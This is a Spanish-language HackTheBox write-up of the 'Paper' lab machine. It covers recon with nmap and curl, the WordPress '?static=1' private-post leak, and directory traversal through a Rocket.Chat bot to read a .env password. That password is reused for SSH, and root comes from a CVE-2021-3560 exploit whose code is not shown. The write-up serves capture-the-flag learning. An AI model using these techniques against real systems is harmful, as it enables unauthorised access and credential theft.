



Resolución de la máquina Paper de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.143
Nmap scan report for 10.10.11.143
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
443/tcp open https
Al mirar las cabeceras de respuesta, encontramos X-Backend-Server con lo que parece un dominio
❯ curl 10.10.11.143 -I
HTTP/1.1 403 Forbidden
Date: Sun, 12 Jun 2022 16:31:50 GMT
X-Backend-Server: office.paper
Si miramos con whatweb las tecnologias que emplea el nuevo dominio encontramos una version de wordpress antigua
❯ whatweb http://office.paper
http://office.paper [200 OK]
Bootstrap[1,5.2.3]
HTTPServer[CentOS][Apache/2.4.37 (centos)]
WordPress[5.2.3]
X-Powered-By[PHP/7.2.24]
Al buscar con searchsploit encontramos 2 exploits para esa versión y hay uno que dice que si agregamos "?static=1" podemos ver post ocultos
❯ searchsploit Wordpress 5.2.3
------------------------------------------------------------------------ ---------------------------
Exploit Title | Path
------------------------------------------------------------------------ ---------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts | multiple/webapps/47690.md
------------------------------------------------------------------------ ---------------------------
❯ searchsploit -x 47690.md
So far we know that adding `?static=1` to a wordpress URL should leak its secret content
Lo abrimos en el navegador, y funciona, ahora tenemos un enlace de registro a otro dominio "chat.office.paper"
http://chat.office.paper/register/8qozr226AhkCHZdyY

Lo agreamos y nos registramos con el enlace que conseguimos

Despues de unos segundos se nos añade a un grupo aunque no podemos leer, pero podemos ver que hay un bot "recyclops", podemos enviarle mensaje privado

Al decirle "help" nos da un manual con comandos, podemos usar "list" que es como hacer "ls -la" y "file" que es como hacer "cat", al hacer un "list .." esto es lo que mas destaca
list ..
drwx------ 11 dwight dwight 4096 Jun 12 12:19 .
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 25 Jun 11 22:03 .ssh
"hubot" no es muy comun de ver si miramos que hay dentro entre otras cosas hay un .env podemos revisar que tiene y encontramos credenciales
list ../hubot
drwx------ 8 dwight dwight 4096 Sep 16 2021 .
drwx--x--x 2 dwight dwight 36 Sep 16 2021 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 2021 .env
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
file ../hubot/.env
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
Encontramos una contraseña, pero además de eso si miramos el propietario es dwight, entonces podemos probar las credenciales "dwight:Queenofblad3s!23" por ssh y conseguimos el user
❯ ssh dwight@10.10.11.143
dwight@10.10.11.143's password: Queenofblad3s!23
[dwight@paper ~]$ cat user.txt
3ec***************************0f5
[dwight@paper ~]$
Ahora si usamos linpeas para enumerar posibles vectores de ataque, encontramos el CVE-2021-3560 con alta probabilidad
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560
Entonces usando un exploit de ese CVE escalamos a root
[dwight@paper ~]$ python3 exploit.py
[+] Iniciando el exploit
[+] Exploit completado
[root@paper dwight]# cat /root/root.txt
555**************************139
[root@paper dwight]#